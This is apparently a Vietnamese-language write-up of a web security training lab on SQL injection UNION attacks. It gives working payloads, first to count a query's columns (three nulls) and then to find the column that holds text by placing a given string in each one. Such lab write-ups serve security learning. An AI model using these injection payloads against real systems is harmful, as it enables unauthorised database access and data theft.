



## SQL injection UNION attack, finding a column containing text

1. Lab yêu cầu hiển thị ra 1 hàng bổ sung chứa string ``"hEXC9M"`` được cung cấp sử dụng UNION attack.

2. Trước tiên, ta sẽ xác định số cột trong câu truy vấn trả về, ta sẽ sử dụng lần lượt các câu truy vấn UNION SELECT gắn giá trị cho từng cột (Giống bài SQLI Union attack determining the number of columns returned by the query) xác định được số cột là 3
Payload: 	``' UNION SELECT null,null,null--``

3. Để hiển thị giá trị ``"hEXC9M"`` thay thử lần lượt vào các cột để biết cột nào có kiểu dữ liệu string 
Payload: 	``' UNION SELECT "hEXC9M",null,null--``
		 	``' UNION SELECT null,"hEXC9M",null--``
		 	``' UNION SELECT null,null,"hEXC9M"--``

